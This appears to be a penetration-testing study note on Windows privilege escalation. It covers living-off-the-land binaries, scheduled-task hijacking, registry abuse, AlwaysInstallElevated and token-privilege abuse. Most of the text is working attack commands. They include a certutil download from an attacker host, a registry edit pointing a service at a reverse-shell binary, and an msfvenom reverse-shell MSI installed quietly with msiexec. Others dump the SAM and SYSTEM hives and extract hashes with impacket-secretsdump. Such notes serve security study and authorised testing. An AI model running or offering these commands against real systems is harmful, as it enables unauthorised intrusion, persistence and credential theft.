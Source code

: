 ## Abusing Other Windows Components

**Living off of the Land**
- [LOLBAS](https://lolbas-project.github.io/#) is a great resource similar to gtfobins
- Microsoft signed files that have extra, unexpected functionality, such as, executing code, compiling code, file operations, persistence, UAC bypass, credential theft, dumping process memory, surveillance, log evasion, and DLL side-loading/hijacking
	- For example, `certutil` can download files with `certutil.exe -urlcache -split -f http://{kaliIP}/{file} {output_file}`


**Using Scheduled Tasks**
- Need to know who runs the scheduled tasks, what triggers are required, and what the tasks do
- View scheduled tasks with `Get-ScheduledTask` or `schtasks /query /fo LIST /v`
	- This is a shit ton of info, pipe it into a text file and search through it
		- Can search for `{workgroup}\`, which will return things authored by people like `CLIENTWK220\daveadmin`
	- Check author of scheduled tasks, tasks to run, and next run time
		- Sometimes, privileged authors can put the executables in modifiable locations
		- Thus, if we replace it, it will be run as a privileged user on next run time
- Get startup tasks: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

**Registry**
- WinPEAS will output controllable Registry entries, look for
	- `HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl])`
- Autorun:
	- `reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
	- `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- Can check perms with `accesschk \accepteula -uvwqk "{path}"`
	- https://download.sysinternals.com/files/AccessChk.zip
- `reg query {registry_path}`
- `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v {file_path_entry} /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
- AlwaysInstallElevated
	- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
	- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
	- If one of these works, do
		- `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={port} --platform windows -f msi > reverse.msi`
		- `msiexec /quiet /qn /i reverse.msi`

**Abusing Privileges to Execute Code as Privileged Users**
- Can either exploit applications, the kernel, or abuse privileges we have
- `whoami /priv`
	- This will return the specific privileges our user has, in either an enabled or disabled state
	- Disabled just means we need to enable it before using the relevant command
		- We can enable all privileges using [this powershell script](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)
- Privilege Abuse:
	- If we have `SeImpersonatePrivilege`, `SeBackupPrivilege`, `SeAssignPrimaryToken`, `SeLoadDriver`, `SeTakeOwnershipPrivilege` or `SeDebugPrivilege`, we can sometimes perform operations in the security context of another user
		- With the `SeBackupPrivilege` and `SeRestorePrivilege`, we can read arbitrary files with robocopy: `robocopy /b C:\<path to file> .\<filename>`
			- We can also just privesc via the following:
			- `reg save hklm\sam C:\Users\{current_user}\sam`
			- `reg save hklm\system C:\Users\{current_user}\system`
				- The SAM and SYSTEM will usually be located here:
					- C:\Windows\repair\SAM
					- C:\Windows\System32\config\RegBack\SAM
					- C:\Windows\System32\config\SAM
					- Can search with `dir /s {SAM/SYSTEM}`
			- `impacket-secretsdump -sam sam -system system LOCAL`
		- Use [SharpUp](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/SharpUp.exe) to determine which privileges are abusable